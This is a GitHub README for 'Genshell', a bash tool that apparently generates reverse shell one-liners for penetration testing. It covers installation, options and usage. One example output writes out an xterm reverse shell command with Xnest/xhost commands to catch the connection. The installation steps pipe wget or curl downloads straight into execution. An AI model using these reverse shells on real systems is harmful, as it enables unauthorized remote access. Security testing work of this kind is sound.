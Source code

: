 # Genshell: A bash copy-and-paste oneline reverse shell generator.

This project is deticated to ippsec. Thank you for releasing over one-hundred hours of phenomenal cybersecurity content.

Another thanks to pentestmonkey for dishing out the awesome shells!

## Forenote 
I found myself browsing other websites flagged as "malicious" for rev shells and got fed up with with security reccomendations. This script automates the generation of shells without leaving the terminal (WITH COLORS!). There will likely be  rev shells here that you have seen on other sites such as pentestmonkey, hacktricks, and other pentesting sites; if a shell from your site is used, you will be added to the "Inspirations" section in the beginning of the script. All contributions welcome. This is me giving back to the community that has shared so much with me. 

<!--
*** LOGO !![vmplayer_bx33YLqLcn](https://user-images.githubusercontent.com/68730121/106347752-dc8c6a80-628e-11eb-91e9-3e2d510b2172.png)
![Banner](https://user-images.githubusercontent.com/68730121/106348443-58d57c80-6294-11eb-8aa0-b93806259f58.png)

-->
# Genshell Output 

![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)




<!-- GETTING STARTED -->
# Installation

1. Using the GitHub repo  
   ```sh
   git clone https://github.com/djjoa/genshell.git
   cd genshell
   chmod +x gennshell
   ./genshell 
   ```
   
2. As a standalone script
   ```sh
   wget https://raw.githubusercontent.com/djjoa/genshell/main/genshell && chmod +x genshell && ./genshell
   #OR 
   curl https://raw.githubusercontent.com/djjoa/genshell/main/genshell -o genshell && chmod +x genshell && ./genshell
   ```

3. **Link the file to your path for native use with bash** (not necessary for the script to work) 
   ```sh
   # Before
   ./genshell -h 

   # After 
   sudo ln -s /genshell_install_dir/genshell /usr/local/bin/genshell 
   genshell -h
   ```
<!-- USAGE EXAMPLES -->

# Help

```sh
./genshell -h

genshell: The atomatic copy-and-paste oneline reverse shell generator. Just add args!

options:
-h|--help              Print this help menu
-b|--banner            Display the banner
-p|--port [INT]        Port you wish to cach your shell back on
-l|--LHOST [IP]        Supply TUN0 addr if not auto-parsed by the script (autoparse is set by default)
-t|--RHOST [IP]        Target IP (optional)
```

# Usage

```sh
./genshell -u
Usage: genshell [-h|--help] -p|--port [args] [-l|--LHOST [args]] [-t|--RHOST [args]] [-b|--banner]
```

# Running the Script 

When run with no arguments, the script displays the banner and help information. 

![vmplayer_HhJF2BiEUP](https://user-images.githubusercontent.com/68730121/106348709-2298fc80-6296-11eb-85c5-3502ec7fff5b.png)

# Generating Reverse Shell Templates 

To generate all reverse shell templates the `-p` or `--port` must be used. The script will attempt to automatically parse your `tun0` network adapter (assuming you are pentesting over a vpn). If it fails, the `-l` or `--LHOST` agument may be passed to manually specificy a listening network adapter. 

```sh
./genshell -p 4444
```

![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)

# Additional Arguments 
If the `-t` or `--RHOST` argument is passed the `xterm` reverse shell dialog will be displayed at the end of the script. 90% of the shell's don't require a RHOST paramter; they have been ommited by default. 

```sh
./genshell -p 4444 -l 1.1.1.1 -t 4.4.4.4
.... <snip> .... 
##################### XTERM ##################### 
The following command should be run on the server.  It will try to connect back 1.1.1.1 on TCP port 6001

xterm -display 1.1.1.1:1

To catch the incoming xterm, start an X-Server on attacker machine (:1 – which listens on TCP port 6001)

Xnest :1
xhost +4.4.4.4
```

# Usage Examples

* Generate shell templates on interface address `192.168.4.2` listening on port `4444`
```sh
./genshell --port 4444 --LHOST 192.168.4.2
./genshell  -p    4444  -l 192.168.4.2
```
* Generate shell templates with defualt `tun0` adapter listening on port 8181
```sh
./genshell --port 8181
./genshell -p 8181
```

<!-- CONTACT -->
## Contact

Enjoy the shellz! Never leave the terminal again to get exactly what you need to get the job done. 

Zer0 - [@x41x41x41x41](https://twitter.com/x41x41x41x41) - Discord Zer0#0272

Project Link: [https://github.com/djjoa/genshell](https://github.com/djjoa/genshell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements

* [ippsec](https://twitter.com/ippsec)
* [ippsec.rocks](https://ippsec.rocks/?#)
* [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)




<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/djjoa/repo.svg?style=for-the-badge
[contributors-url]: https://github.com/djjoa/repo/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/djjoa/repo.svg?style=for-the-badge
[forks-url]: https://github.com/djjoa/repo/network/members
[stars-shield]: https://img.shields.io/github/stars/djjoa/repo.svg?style=for-the-badge
[stars-url]: https://github.com/djjoa/repo/stargazers
[issues-shield]: https://img.shields.io/github/issues/djjoa/repo.svg?style=for-the-badge
[issues-url]: https://github.com/djjoa/repo/issues
[license-shield]: https://img.shields.io/github/license/djjoa/repo.svg?style=for-the-badge
[license-url]: https://github.com/djjoa/repo/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/djjoa
